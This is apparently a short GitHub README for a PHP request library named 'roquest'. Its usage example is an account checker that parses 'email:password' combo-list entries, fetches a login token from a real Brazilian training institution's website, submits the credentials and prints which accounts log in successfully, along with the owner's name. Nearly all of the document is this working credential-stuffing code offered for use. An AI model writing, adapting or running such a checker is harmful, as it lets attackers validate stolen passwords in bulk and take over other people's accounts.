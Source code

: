 # roquest
`$checker = new roquest();`
`$lista = "email@email.com:password"; //value`
`$conta = $checker->separarLista(array(':','|'),$lista); //multiexplode`

`$email = $conta[0]; //value1
$senha = $conta[1]; //value2`

`$url = "https://www.sp.senac.br/o/senac-content-services/geraTokenLogin"; //url to request`
`$url_2 = "https://www.sp.senac.br/o/senac-content-services/autenticacaoLogin";  //url to request`

`$headers = array(
'Accept: */*',
'Accept-Encoding: gzip, deflate, br',
'Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
'Connection: keep-alive',
);`
`
$headers_2 = array(
    'Connection: keep-alive',
    'Content-Type: text/plain',
);`

`$r1 = $checker->requisiçaoGet($url,$headers,'cookie1','',''); // get request`
`$token = $checker->puxarDados($r1,'"token":"','"','1'); // get values`

`$data_2 = '{"email":"'.$email.'","senha":"'.$senha.'","token":"'.$token.'"}';`

`$r2 = $checker->requisiçaoPost($url_2,$headers_2,$data_2,'cookie1','','');`

`$validar = $checker->validarConta($r2,'"nome":"','incorreto(s)!'); //message to valid account`
`$nome = $checker->puxarDados($r2,'"nome":"','"','1'); // get values`

`if($validar == 1){
    echo "OK! $email:$senha -> $nome";
}
if($validar == 0){
    echo "ERROR! $email:$senha -> Usuário ou senha incorretos";
}
`
